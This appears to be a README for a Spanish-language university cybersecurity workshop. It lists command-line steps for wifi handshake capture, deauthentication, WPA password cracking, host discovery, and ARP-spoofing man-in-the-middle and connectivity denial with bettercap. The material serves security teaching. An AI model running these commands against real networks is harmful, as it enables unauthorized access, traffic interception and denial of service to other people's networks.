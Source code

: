 # udg-taller-ciberseguridad

## Creando diccionarios
```bash
```

## Atacando redes wifi
```bash

sudo airmon-ng start wlp2s0 # monitor
iwconfig # wifi info

sudo airodump-ng wlp2s0mon ## Scan 2Ghz
sudo airodump-ng wlp2s0mon --essid=<ssid>  ## Scan 2Ghz and filter by regex 
sudo airodump-ng wlp2s0mon --essid-regex=<ssid> --band a ### Scan 5Ghz

## Monitor and capture a handshake
sudo airodump-ng wlp2s0mon -c <channel> --bssid <bssid> -w psk.pcap --output-format pcap 

## Send generic deauth packets, may not work in all scenarios
sudo aireplay-ng -0 0 -a <bssid> wlp2s0mon # broadcast
sudo aireplay-ng -0 0 -a <bssid> -c <client-mac> wlp2s0mon # to 1 client

## Cracking
aircrack-ng -w ./creds.txt --bssid=<bssid> ./psk.pcap-0*

sudo airmon-ng check kill ## stop

```

## Encontrando dispositivos en la red
```bash
netdiscover -i wlp2s0 -r 192.168.1.0/24
netdiscover -i wlp2s0 -p
sudo arp-scan -I wlp2s0 --localnet
```

## MITM

`sudo go/bin/bettercap -iface wlp2s0`
| Orden | Descripción |
|-------|---------|
| net.show | Mostrar información sobre la red |
| net.probe on | Iniciar escaneo de host en la red |
| net.recon | Leer periódicamente la tabla ARP del sistema para detectar nuevos hosts en la red. |
| set arp.spoof.targets 192.168.100.100,192.168.100.200 | Establecer un objetivo en la red |
| arp.spoof on| Iniciar arp spoofing |
| set arp.spoof.internal true | Las conexiones locales entre ordenadores de la red también serán falsificadas, de lo contrario solo se falsificarán las conexiones que vayan hacia y desde la red externa. |
| arp.ban on | ARP spoofing en modo de prohibición, lo que significa que la conectividad del objetivo no funcionará. | 
